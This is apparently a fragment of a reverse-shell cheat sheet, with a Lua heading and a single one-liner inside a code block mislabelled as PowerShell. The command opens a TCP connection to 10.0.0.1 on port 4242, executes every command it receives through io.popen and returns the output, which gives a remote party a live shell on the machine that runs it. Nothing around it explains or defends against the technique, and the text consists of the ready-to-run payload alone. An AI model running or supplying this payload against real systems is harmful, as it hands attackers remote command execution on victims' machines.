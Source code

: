 ## lua

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
